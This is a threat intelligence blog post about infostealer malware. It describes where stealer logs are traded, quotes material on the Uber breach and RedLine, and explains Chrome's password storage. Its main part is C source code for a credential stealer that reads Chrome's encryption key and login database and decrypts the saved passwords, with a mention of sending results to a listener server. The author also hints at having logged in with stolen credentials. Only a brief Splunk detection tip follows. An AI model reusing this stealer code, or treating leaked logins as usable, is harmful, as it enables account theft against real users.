 ```yaml
---
title: "Hunting for Stealers"
date: 2024-06-14
draft: false
tags: ["threat intelligence", "cybersecurity", "stealer", "malware", "reverse engineering"]
categories: ["blog"]
---
```


As a Threat Intelligence Analyst, part of my job involves scrolling through darknet forums and detecting potential attacks, breaches, and leaks (not the other one). One thing that always crosses my mind is how confidential data is freely posted on these forums. Most interesting one is of course stealer logs.

> A stealer is a Trojan that gathers information from a system. The most common form of stealers are those that gather logon information, like usernames and passwords, and then send the information to another system either via email or over a network.

## How do we find leaks?

It is easier than you think. You can literally get stealer logs just by visiting well-known forums, where they are displayed on the front page. However, some of the premium logs (what a fancy name) will require you to purchase them.

![Alt text](/images/stealer1.webp)

If you dive deep into the darkness, you can find that you can even get them for free (almost).
![Alt text](/images/stealer2.webp)


There is no need to mention Telegram groups. It is the go-to place for leaks.

![Alt text](/images/stealer3.webp)

## Why does it matter?

If you are familiar with Uber hack, hackers able to obtain access to the network via stolen credentials (probably stealer logs)

> “The Uber data breach began with a hacker purchasing stolen credentials belonging to an Uber employee from a dark web marketplace. An initial attempt to connect to Uber’s network with these credentials failed because the account was protected with MFA. To overcome this security obstacle, the hacker contacted the Uber employee via Whatsapp and, while pretending to be a member of Uber’s security, asked the employee to approve the MFA notifications being sent to their phone.”

![Alt text](/images/stealer4.webp)


Literally.

Let’s open one of the log files and analyze it. As we can see, it contains credentials for Discord, eBay, Spotify, etc., that work (don’t ask me how I know).

![Alt text](/images/stealer5.webp)


It is interesting, isn’t it? But how does it work? How can malware harvest our credentials that easily?

> RedLine Stealer is a malware available on underground forums for sale apparently as standalone ($100/$150 depending on the version) or also on a subscription basis ($100/month). This malware harvests information from browsers such as saved credentials, autocomplete data, and credit card information. A system inventory is also taken when running on a target machine, to include details such as the username, location data, hardware configuration, and information regarding installed security software. More recent versions of RedLine added the ability to steal cryptocurrency. FTP and IM clients are also apparently targeted by this family, and this malware has the ability to upload and download files, execute commands, and periodically send back information about the infected computer.

## How Chrome saves passwords?

The encrypted passwords are stored in a sqlite database located at:

```c
%APPDATA%..\Local\Google\Chrome\User Data\Default\Login Data
```

256 bit masterkey is stored in:

```c
C:\Users%s\AppData\Local\Google\Chrome\User Data\Local State
```


as a DPAPI secret again and each password item is then a hex encoded.

> Chrome encrypts this password using the Windows API function CryptProtectData. This function gets called in the user context of the machine and only a user with the same credentials as the user who encrypted the data can decrypt it. This encryption / decryption also must be carried out on the same machine (Microsoft, 2018).

## Writing stealer to dump passwords

We will write our stealer in C (because why not). First, we need to state where passwords and encryption keys are stored. You can get full code from my github repo.

```c
snprintf(password_path, MAX_PATH_LENGTH, "C:\\Users\\%s\\AppData\\Local\\Google\\Chrome\\User Data\\Default\\Login Data", username);

char encryption_key_path[MAX_PATH_LENGTH];
snprintf(encryption_key_path, MAX_PATH_LENGTH, "C:\\Users\\%s\\AppData\\Local\\Google\\Chrome\\User Data\\Local State", username);
```

In order to get encryption key we use getEncryptionKey function. This function reads an encryption key from a file specified by encryption_key_path by locating the string "encrypted_key" within the file and returns the key as a dynamically allocated string. If the file cannot be opened or memory allocation fails, it returns NULL.

```c
char* getEncryptionKey(const char* encryption_key_path) {
    FILE* encryption_key_file = fopen(encryption_key_path, "r");
    if (encryption_key_file == NULL) {
        printf("Error opening encryption_key_file: ");
        displayErrorMessage(GetLastError());
        return NULL;
    }

    char buffer[MAX_LINE_LENGTH];
    char* key = NULL;
    long offset = 0;

    while (fgets(buffer, MAX_LINE_LENGTH, encryption_key_file) != NULL) {
        char* key_start = strstr(buffer, "\"encrypted_key\":\"");
        if (key_start != NULL) {
            offset += key_start - buffer;
            fseek(encryption_key_file, offset, SEEK_SET);
            key = (char*)malloc(MAX_LINE_LENGTH);
            if (key == NULL) {
                printf("Error: Memory allocation failed.\n");
                fclose(encryption_key_file);
                return NULL;
            }
            if (fgets(key, MAX_LINE_LENGTH, encryption_key_file) == NULL) {
                printf("Error reading key value.\n");
                fclose(encryption_key_file);
                free(key);
                return NULL;
            }
            break;
        }
        offset += strlen(buffer);
    }

    fclose(encryption_key_file);
    return key;
}
```

This function decrypts a given ciphertext using AES-256-GCM, storing the decrypted data in the decrypted buffer, and prints an error message if decryption fails.

```c
void decrypt_payload(unsigned char* ciphertext, size_t ciphertext_len, unsigned char* key, unsigned char* iv, unsigned char* decrypted) {
    unsigned long long decrypted_len;
    int result = crypto_aead_aes256gcm_decrypt(decrypted, &decrypted_len, NULL, ciphertext, ciphertext_len, NULL, 0, iv, key);
    if (result != 0) {
        printf("Decryption failed\n");
        displayErrorMessage(GetLastError());
    }
}
```

This code snippet connects to an SQLite database, retrieves login information, and attempts to decrypt the stored passwords using AES-256-GCM. If any step fails, it prints an error message and continues to the next entry.

```c
sqlite3* db;
int rc = sqlite3_open(password_path, &db);
if (rc != SQLITE_OK) {
    fprintf(stderr, "Cannot open database: %s\n", sqlite3_errmsg(db));
    sqlite3_close(db);
    return 1;
}

const char* sql = "SELECT origin_url, username_value, password_value FROM logins";
sqlite3_stmt* stmt;
rc = sqlite3_prepare_v2(db, sql, -1, &stmt, NULL);
if (rc != SQLITE_OK) {
    fprintf(stderr, "Failed to execute SQL query: %s\n", sqlite3_errmsg(db));
    sqlite3_close(db);
    return 1;
}

while (sqlite3_step(stmt) == SQLITE_ROW) {
    const unsigned char* originUrl = sqlite3_column_text(stmt, 0);
    const unsigned char* usernameValue = sqlite3_column_text(stmt, 1);
    const void* passwordBlob = sqlite3_column_blob(stmt, 2);
    int passwordSize = sqlite3_column_bytes(stmt, 2);

    printf("Origin URL: %s\n", originUrl);
    printf("Username: %s\n", usernameValue);

    unsigned char iv[12];
    if (passwordSize >= 15) {
        memcpy(iv, (unsigned char*)passwordBlob + 3, 12);
    } else {
        fprintf(stderr, "Password size too small to generate IV\n");
        continue;
    }

    if (passwordSize <= 15) {
        fprintf(stderr, "Password size too small\n");
        continue;
    }

    BYTE* Password = (BYTE*)malloc(passwordSize - 14);
    memcpy(Password, (unsigned char*)passwordBlob + 15, passwordSize - 15);
    Password[passwordSize - 15] = '\0';

    decrypt_payload(Password, passwordSize - 15, masterkey.pbData, iv, Password);
    printf("Decrypted password is: %s\n", Password);
}
```
After running the payload, we can see the credentials on our listener server, indicating that the operation was successful.
How we detect?

If we analyze collected logs in Splunk by writing a correlation search with event code 4663, which indicates an attempt was made to access an object related to login data, we can identify access attempts where the action is ReadData. To reduce false positives, we can further exclude Chrome from the process path.

Last Note

Pls don’t use crack programs (they are trojans with stealers in them. Nothing is free in this world.) 🙏🙏🙏